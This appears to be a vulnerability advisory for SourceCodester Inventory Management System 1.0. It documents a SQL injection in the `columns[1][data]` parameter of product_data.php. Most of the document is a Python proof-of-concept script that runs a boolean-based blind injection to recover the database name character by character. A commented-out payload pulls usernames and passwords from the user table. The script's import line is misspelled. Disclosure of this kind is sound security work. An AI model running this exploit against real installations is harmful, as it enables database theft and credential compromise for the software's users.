# SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in product_data.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in app/ajax/product_data.php. Affected is file app/ajax/product_data.php, the manipulation of the argument `columns[1][data]` leads to SQL injection. Remote attackers can exploit boolean-based blind injection to retrieve all data from the database.

## Vulnerability Code
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/e2d16d71-687c-417f-9d60-910ba7ef0803)

## POC
```python
import requests
import strin

url = "http://localhost:81/app/ajax/product_data.php"
res = ""
dict = string.digits + string.ascii_lowercase + "!@#$%^()[]_."

for i in range(1,50):
    for j in dict:
        payload = "id^(select(select database()) regexp '^%s');" % (res+j)
        # payload = "id^(select(select group_concat(username,password) from user) regexp '^%s');" % (res+j)
        data = {
            "order[0][column]":"1",
            "columns[1][data]": payload
        }
        response = requests.post(url, data=data)
        if 'DDR4' in response.text[790:820]:
            res += j
            print("[*] Found: ",res)
            break
```
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/b36b041f-389b-475b-999e-e3721cbbc8b3)
